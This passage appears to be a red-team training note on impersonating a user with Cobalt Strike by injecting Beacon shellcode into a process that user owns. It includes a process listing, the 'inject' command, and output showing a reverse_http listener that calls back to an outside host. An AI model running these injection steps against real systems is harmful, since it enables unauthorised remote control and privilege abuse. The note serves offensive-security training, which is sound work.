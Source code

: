 Another, admittedly crude technique for impersonating a user, is to inject [[T1055](https://attack.mitre.org/techniques/T1055/)] Beacon shellcode directly into a process they are running.  The new Beacon session that comes back will be running in the address space of this process and therefore under the security context of its owner.

Find a target process using the `ps` command or the process explorer, then inject shellcode for the given listener into it.

```powershell
 PID   PPID  Name                       Arch  Session     User
 ---   ----  ----                       ----  -------     ----
 5248  1864  cmd.exe                    x64   0           CONTOSO\rsteel
 5256  5248      conhost.exe            x64   0           CONTOSO\rsteel
 5352  5248      mmc.exe                x64   0           CONTOSO\rsteel
 
beacon> inject 5248 x64 http
[*] Tasked beacon to inject windows/beacon_http/reverse_http (www.bleepincomputer.com:80) into 5248 (x64)
```

![[Pasted image 20250710230331.png]]

> You need a high-integrity session to inject into processes other than your own.